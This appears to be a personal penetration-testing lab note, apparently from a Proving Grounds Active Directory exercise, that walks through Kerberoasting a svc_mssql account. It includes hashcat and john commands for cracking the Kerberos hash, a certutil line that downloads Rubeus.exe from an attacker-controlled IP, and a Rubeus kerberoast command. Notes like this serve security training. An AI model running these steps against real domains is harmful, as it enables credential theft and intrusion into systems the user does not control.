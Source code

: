 ![[PG/Active Directory/attachments/Pasted image 20250707164925.png]]
- got a $krb5tsg for svc_mssql

![[PG/Active Directory/attachments/Pasted image 20250707165021.png]]

Save this hash as mssql.hash

![[PG/Active Directory/attachments/Pasted image 20250707165252.png]]

Crack with hashcat

![[PG/Active Directory/attachments/Pasted image 20250707165751.png]]

```
hashcat -m 13100 mssql.hash /usr/share/wordlists/rockyou.txt
```

Hashcat doesn't like how I saved everything 

![[PG/Active Directory/attachments/Pasted image 20250707165911.png]]

I think I need to remove this part 

![[PG/Active Directory/attachments/Pasted image 20250707165959.png]]

Why is this hash effed up.

Repasting hash and trying diff vim command `:%le` to remove weird indent

Re-trying john

```
john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 hash 
```

This hash is not cracking. 

I'm going to try with Rubeus instead. 

```
certutil -urlcache -split -f http://192.168.45.152/Rubeus.exe
```

```
./Rubeus.exe kerberoast /nowrap /simple
```

![[PG/Active Directory/attachments/Pasted image 20250707171317.png]]

Save this hash. Yeah, I think something about the output of Invoke-Kerberoast was weird. 

This cracked easily with hashcat.

```
hashcat -m 13100 rubeus.hash /usr/share/wordlists/rockyou.txt 
```

![[PG/Active Directory/attachments/Pasted image 20250707171807.png]]
